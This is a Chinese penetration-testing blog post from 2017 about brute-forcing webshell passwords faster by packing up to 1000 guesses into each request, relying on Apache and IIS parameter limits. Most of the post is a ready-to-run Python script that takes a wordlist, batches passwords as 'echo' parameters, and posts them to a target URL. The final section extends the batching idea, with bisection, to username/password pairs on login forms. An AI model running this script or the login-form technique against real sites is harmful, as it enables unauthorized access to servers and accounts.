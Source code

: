 +++
date = "2017-02-17T10:32:24+08:00"
description = ""
draft = false
tags = ["pentest"]
title = "利用多参数提高webshell爆破速度"
topics = ["Pentest"]

+++

### 0x00 原理
> 之前在[https://www.t00ls.net/viewthread.php?tid=36985](https://www.t00ls.net/viewthread.php?tid=36985)看到这个思路的。Apache下默认同时允许接收1000个参数；IIS下默认同时允许接收5883个参数，可以一次提交多个密码，从而快速爆破。

### 0x01 爆破webshell代码
> ```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# code by reber <1070018473@qq.com>

import sys
import requests

proxy = {'http':'http://127.0.0.1:8080'}
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:46.0) Gecko/20100101 Firefox/46.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
}

def get_file(filename):
    data = []
    with open(filename,'r') as f:
        lines = f.readlines()
        for line in lines:
            data.append(line.strip())
    return data

def get_payloads(data):
    payloads = []
    for x in xrange(0,10):
        print x*1000,(x+1)*1000
        payload = []
        for y in data[x*1000:(x+1)*1000]:
            payload.append("%s=echo '%s';" % (y,y))
        payloads.append('&'.join(payload))
    return payloads

def run(url, payloads):
    for payload in payloads:
        resp = requests.post(url=url,data=payload,headers=headers)
        print resp.content

if __name__ == '__main__':
    url = sys.argv[1]
    filename = sys.argv[2]

    data = get_file(filename)
    payloads = get_payloads(data)
    run(url, payloads)
```
![](/img/post/blasting_webshell.png)

### 0x02 猜想
>  平时爆破表单时都是一次提交一个payload，比如说username='xxx'&password='xxx'  
10w个组合需要提交10w次，若一次提交500个组合则只需要提交200次

> 我们可以直接一次提交500个payload，如：name='111'&pass='111'&name='112'&pass='112'&name='113'&pass='113'& 。。。。。。(500个payload)

> 如果正确的密码在你测试的某1000个参数中，那么返回页面的是不同的，则可以断定正确的用户名和密码在这1000个参数里，然后对这1000个参数用二分法再次进行测试，直到得到正确的用户名和密码